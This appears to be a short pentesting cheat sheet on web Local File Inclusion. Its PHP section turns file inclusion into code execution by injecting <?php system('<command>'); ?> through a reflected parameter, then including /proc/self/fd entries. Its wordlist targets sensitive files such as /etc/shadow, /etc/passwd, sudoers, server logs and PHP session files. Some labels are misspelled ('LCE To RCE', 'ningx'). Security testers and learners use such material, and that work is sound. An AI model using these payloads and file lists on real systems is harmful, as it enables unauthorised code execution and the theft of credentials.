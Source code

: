 # Web Local File Inlucsion (LFI)

- [LCE To RCE](#lce-to-rce)
- [Wordlist](#wordlist)
- [References](#references)


## LCE To RCE

### PHP

```
[Encounter #1]

* First try to LFI on /proc/self/fd/<number> with number from 0 to 100.
* Example => /proc/self/fd/0 @ /proc/self/fd/1 @ /proc/self/fd/100
* If you found any parameter that reflected on this log 
* Try to put <?php system('<command>'); ?>
* Example => user_ref=<?php system('id'); ?>
* Then try to go back to that file and if it works you can see the output :)
```


## Wordlist

```
/etc/knockd.conf
/etc/shadow
/etc/passwd
/etc/sudoers.d/root
/var/log/apache2/error.log
/var/log/apache2/access.log
/etc/php/apache2/php.ini
/etc/nginx/sites-enabled/default.conf
/etc/ningx/nginx.conf
/etc/httpd/conf/httpd.conf
/etc/httpd/php.ini
/var/www/logs/access_log
/proc/self/fd/<number loop 0-100>
/var/www/logs/error_log
/var/lib/php5/sess_<your session>
```